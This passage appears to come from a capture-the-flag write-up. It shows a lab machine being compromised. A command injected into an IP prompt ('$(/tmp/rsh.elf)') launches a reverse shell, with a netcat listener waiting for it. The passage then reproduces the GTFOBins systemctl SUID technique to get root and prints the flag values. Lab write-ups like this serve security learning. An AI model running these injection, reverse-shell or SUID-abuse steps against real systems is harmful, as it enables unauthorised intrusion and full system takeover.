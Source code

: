 Nice. We can't add an authorized ssh key because that requires a hyphen, but we can kick off another reverse shell with the new privileges:

```sh
# on kali, start listener
sudo nc -lvnp 443

# on victim, start reverse shell
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP:  $(/tmp/rsh.elf)
```

Got user.txt:

```
2afa36c4f05b37b34259c93551f5c44f
```



Running linpeas again, and I see now there is a SUID binary set for `systemctl`, which is a [GTFObin](https://gtfobins.github.io/gtfobins/systemctl/). Here is their example exploit code for SUID:

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
# can also use `systemctl start $TF`
```

This creates a new systemd service and kicks it off as root. Testing it reveals it works! Now just edit the exploit to run the reverse shell instead of the `id` command!

root.txt:

```
d41d8cd98f00b204e9800998ecf84271
```

